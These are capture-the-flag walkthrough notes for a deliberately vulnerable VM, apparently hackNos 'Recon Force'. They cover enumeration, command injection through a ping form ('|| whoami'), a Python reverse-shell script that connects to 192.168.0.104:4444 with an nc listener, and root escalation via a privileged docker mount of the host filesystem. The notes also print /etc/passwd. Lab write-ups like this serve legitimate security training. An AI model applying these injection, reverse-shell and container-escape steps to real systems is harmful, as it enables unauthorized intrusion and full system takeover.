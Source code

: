 1) Enumeration: 
	- VM IP: sudo netdiscover
		* VMWare 192.168.0.12
	- VM info: nmap -A 192.168.0.12
		* 21/tcp open  ftp  
			Anonymous log-in is on. --> banner "ftp 'Security@hackNos'"
		* 22/tcp open  ssh
		* 80/tcp open  http

	- web server info: dirb -w http://192.168.0.12 & 
		* http://192.168.0.12/index.html
		* http://192.168.0.12/css/style.css
		* http://192.168.0.12/css/2.jpg

	- web server 192.168.0.12/5ecure login using the :
		* admin:Security@hackNos <-- Banner

	- web server info: dirb -w http://192.168.0.12/5ecure		
		* http://192.168.0.12/5ecure/index.html
			form POSTs data to output.php
		* http://192.168.0.12/5ecure/css/style.css
		* http://192.168.0.12/5ecure/css/2.jpg
		* http://192.168.0.12/5ecure/output.php
			simple ping <ip> function

2) Pene:
	- 192.168.0.12/5ecure/out.php -> exec(ping $ip) -> injection 
		* $ip = || command  # /&&/& + command' didn't work, char escape or header conflict
		- ip=|| whoami 
			* www-data
		- ip=|| export
			* export APACHE_LOCK_DIR='/var/lock/apache2'
			* export APACHE_LOG_DIR='/var/log/apache2'
			* export APACHE_PID_FILE='/var/run/apache2/apache2.pid'
			* export APACHE_RUN_DIR='/var/run/apache2'
			* export APACHE_RUN_GROUP='www-data'
			* export APACHE_RUN_USER='www-data'
			* export INVOCATION_ID='e514c3c1dbef4f068ab8124007ec59a6'
			* export JOURNAL_STREAM='9:21541'
			* export LANG='C'
			* export PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin'
			* export PWD='/var/www/recon/5ecure'		
		- ip=|| ls 
			* system navigation
		- ip=|| vi *file*
			* privilege check

		- intresting files:
			* /var/opt/python.py
			* /etc/passwd

2b) CLI access
	- python.py on Recon Force server is creating a connection to 192.168.0.104:4444 and runs an interactive bash.
	- configurate host/attacking machine network settings
		* add a new network connection and manualy set it up:
			- IP: 192.168.0.104
			- Netmask: 255.255.255.0
			- Gateway: 192.168.0.1
			- connect to the network using the new interface
	- run nc -lvp 4444 to initiate a listener on 4444
	- on 192.168.0.12/5ecure/index.php ping scan, run '|| python /var/opt/python.py' 
	- tty: python -c 'import pty; pty.spawn("/bin/bash")'
	- getent group 
		* docker:x:119:   # note: passwd --> recon:x:1000:119:rahul:/home/recon:/bin/bash
		* recon user gid = docker 

3) Escelation
	- ssh 192.168.0.12 -l recon
		* pass: Security@hackNos
	- docker run -it --privileged --name=ctf -v /:/host:rw alpine sh
	- container: cd /host

!) Files:
	- /var/opt/python.py:
		
		import socket
		import subprocess
		import os
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(("192.168.0.104", 4444))
		os.dup2(s.fileno(), 0)
		os.dup2(s.fileno(), 1)
		os.dup2(s.fileno(), 2)
		p = subprocess.call(["/bin/bash", "-i"])

	- /var/etc:
		
		root:x:0:0:root:/root:/bin/bash
		daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
		bin:x:2:2:bin:/bin:/usr/sbin/nologin
		sys:x:3:3:sys:/dev:/usr/sbin/nologin
		sync:x:4:65534:sync:/bin:/bin/sync
		games:x:5:60:games:/usr/games:/usr/sbin/nologin
		man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
		lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
		mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
		news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
		uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
		proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
		www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
		backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
		list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
		irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
		gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
		nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
		systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
		systemd-network:x:101:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
		systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
		messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
		syslog:x:104:110::/home/syslog:/usr/sbin/nologin
		_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
		uuidd:x:106:111::/run/uuidd:/usr/sbin/nologin
		tcpdump:x:107:112::/nonexistent:/usr/sbin/nologin
		landscape:x:108:114::/var/lib/landscape:/usr/sbin/nologin
		pollinate:x:109:1::/var/cache/pollinate:/bin/false
		sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
		systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
		recon:x:1000:119:rahul:/home/recon:/bin/bash
		lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
		ftp:x:111:117:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
		mysql:x:112:118:MySQL Server,,,:/nonexistent:/bin/false
		dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
